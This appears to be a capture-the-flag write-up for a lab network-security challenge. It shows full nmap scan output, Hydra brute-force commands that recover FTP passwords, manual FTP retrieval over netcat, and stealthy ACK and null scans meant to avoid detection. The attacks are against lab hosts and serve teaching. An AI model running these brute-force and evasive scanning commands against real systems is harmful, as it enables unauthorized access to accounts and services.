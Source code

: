 # Net Sec Challenge

This CTF is just a series of questions. All should be solvable using nmap, telnet, and Hydra… Though I'm going to substitute netcat for telnet. However, I'm sticking to the spirit of things, and will only use those three tools.

The target machine is 10.10.152.115.

We'll start off with a full nmap scan:

```bash
sudo nmap -v -oN net-sec-challenge -Pn -A --reason -T4 \
          -p- 10.10.152.115
```

Results:

```
# Nmap 7.92 scan initiated Sun Apr  3 20:48:04 2022 as: nmap -v -oN net-sec-challenge -Pn -A --reason -T4 -p- 10.10.152.115
Increasing send delay for 10.10.152.115 from 0 to 5 due to 909 out of 2271 dropped probes since last increase.
Increasing send delay for 10.10.152.115 from 5 to 10 due to 11 out of 15 dropped probes since last increase.
Nmap scan report for 10.10.152.115
Host is up, received user-set (0.19s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     REASON         VERSION
22/tcp    open  ssh         syn-ack ttl 61 (protocol 2.0)
| ssh-hostkey: 
|   3072 da:5f:69:e2:11:1f:7c:66:80:89:61:54:e8:7b:16:f3 (RSA)
|   256 3f:8c:09:46:ab:1c:df:d7:35:83:cf:6d:6e:17:7e:1c (ECDSA)
|_  256 ed:a9:3a:aa:4c:6b:16:e6:0d:43:75:46:fb:33:b2:29 (ED25519)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
80/tcp    open  http        syn-ack ttl 61 lighttpd
|_http-server-header: lighttpd THM{web_server_25352}
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Hello, world!
139/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 4.6.2
445/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 4.6.2
8080/tcp  open  http        syn-ack ttl 61 Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
10021/tcp open  ftp         syn-ack ttl 61 vsftpd 3.0.3
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.92%I=7%D=4/3%Time=624A60E5%P=x86_64-pc-linux-gnu%r(NULL,
SF:29,"SSH-2\.0-OpenSSH_8\.2p1 THM{946219583339}
");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/3%OT=22%CT=1%CU=32245%PV=Y%DS=4%DC=T%G=Y%TM=624A6111
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Uptime guess: 12.801 days (since Tue Mar 22 01:54:39 2022)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Unix

Host script results:
|_clock-skew: -1s
| nbstat: NetBIOS name: NETSEC-CHALLENG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   NETSEC-CHALLENG<00>  Flags: <unique><active>
|   NETSEC-CHALLENG<03>  Flags: <unique><active>
|   NETSEC-CHALLENG<20>  Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-time: 
|   date: 2022-04-04T03:07:53
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   47.27 ms  10.13.0.1
2   ... 3
4   222.58 ms 10.10.152.115

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr  3 21:08:01 2022 -- 1 IP address (1 host up) scanned in 1197.32 seconds
```

This enables us to answer a set of questions immediately.

> What is the highest port number being open less than 10,000? - 8080
>
> There is an open port outside the common 1000 ports; it is above 10,000. What is it? - 10021
>
> How many TCP ports are open? - 6
>
> What is the flag hidden in the HTTP server header? - THM{web_server_25352}
>
> What is the flag hidden in the SSH server header? - THM{946219583339}
>
> We have an FTP server listening on a nonstandard port. What is the version of the FTP server? - vsftpd 3.0.3

That's all pretty easy. The next one is a bit harder with our limited toolset…

We start off by attempting to brute force the password for `eddie` or `quinn` using Hydra. To do this, we're going to run two Hydra tasks in parallel.

```bash
# Hydra task to break eddie's password.
#
hydra -v -f -t 10 -s 10021 -l eddie \
      -P ~/.local/share/red-team/wordlists/rockyou.txt \
         10.10.152.115 ftp

# Hydra task to break quinn's password.
#
hydra -v -f -t 10 -s 10021 -l quinn \
      -P ~/.local/share/red-team/wordlists/rockyou.txt \
         10.10.152.115 ftp
```

These quickly return the results `eddie:jordan` and `quinn:andrea`. Let's try to use `nc -nv 10.10.152.115 10021` to log into `eddie`'s account.

```ftp
(UNKNOWN) [10.10.152.115] 10021 (?) open
220 (vsFTPd 3.0.3)
USER eddie
331 Please specify the password.
PASS jordan
230 Login successful.
425 Use PORT or PASV first.
PASV
227 Entering Passive Mode (10,10,152,115,119,101).
LIST
150 Here comes the directory listing.
226 Directory send OK.
QUIT
221 Goodbye.
```

The trick here is that the passive mode response returns (o1,o2,o3,o4,p1,p2), where o1 - o4 are the four octets of the server's IP address (10.10.152.115), and p1 - p2 are the high + low bytes of the port number to connect to, (256 × p1) + p2. Thus, after entering passive mode we can catch the reply using a second netcat instance, `nc -nv 10.10.152.115 30565`. We start this *before* entering the LIST command, revealing that `eddie` has access to no files.

Let's have the same conversation for `quinn`.

```ftp
(UNKNOWN) [10.10.152.115] 10021 (?) open
220 (vsFTPd 3.0.3)
USER quinn
331 Please specify the password.
PASS andrea
230 Login successful.
PASV
227 Entering Passive Mode (10,10,152,115,120,34).
LIST
150 Here comes the directory listing.
226 Directory send OK.
PASV
227 Entering Passive Mode (10,10,152,115,117,85).
RETR ftp_flag.txt
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
226 Transfer complete.
QUIT
221 Goodbye.
```

This time we need to open *two* auxiliary netcat sessions. The first, `nc -nv 10.10.152.115 30754`, catches the LIST command, which reveals that `quinn` has access to an `ftp_flag.txt` file. The second, `nc -nv 10.10.152.115 30037`, catches the contents of that file after issuing the RETR command. This is the answer to our penultimate challenge.

> We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP? - THM{321452667098}

For the final challenge, we go to `http://10.10.152.115:8080`. The challenge is to scan 10.10.152.115 "as covertly as possible". I'm not really willing to wait 7 months for a scan, but I'll bet that all we need to do is use `-T1` and drop `-A`.

```bash
sudo nmap -v -Pn -n -T1 -p- 10.10.152.115
```

Well, that didn't work - "71% chance of scan being detected" and we're nowhere near done. That, and the machine expired without me even noticing.

New target IP is 10.10.34.244.

Maybe speed doesn't matter here? Let's try a scan that shouldn't even look like a connection - an ACK scan - but at a more "normal" rate.

```bash
sudo nmap -v -Pn -n -T4 -sA -p- 10.10.34.244
```

Well, that resulted in an almost immediate flag. Switching to `-T2` for the timing here also incremented things quite quickly.

What about a null scan? That might actually get me more information than an ACK scan, but should elicit *any* response from open ports.

```bash
sudo nmap -v -Pn -n -T4 -sN -p- 10.10.34.244
```

"Null scan" is apparently the right answer, as the challenge provided the flag almost immediately (which doesn't *actually* make any sense, but whatever…).

> Browsing to http://10.10.152.115:8080 displays a small challenge that will give you a flag once you solve it. What is the flag? - THM{f7443f99}

* [Using "nmap"](../Notes/Using%20%22nmap%22.md)
* [Using Hydra](../Notes/Using%20Hydra.md)
* [Using "netcat"](../Notes/Using%20%22netcat%22.md)
* [File Transfer Protocol (FTP)](../Notes/File%20Transfer%20Protocol%20%28FTP%29.md)
* [How to list FTP directories using telnet?](https://stackoverflow.com/questions/50324402/how-to-list-ftp-directories-using-telnet#comment126707507_50324402)
* [FTP Commands: QUIT, USER, ABOR, ACCT, SYST, XDEL](https://www.serv-u.com/resource/tutorial/quit-user-abor-acct-syst-xdel-ftp-command)
* [FTP Commands: APPE, MLSD, MLST, LIST, RETR, STOR, STOU](https://www.serv-u.com/resource/tutorial/appe-stor-stou-retr-list-mlsd-mlst-ftp-command)

ELAPSED TIME: 2 h 31 min

## References

* [TryHackMe: Net Sec Challenge](https://tryhackme.com/room/netsecchallenge)
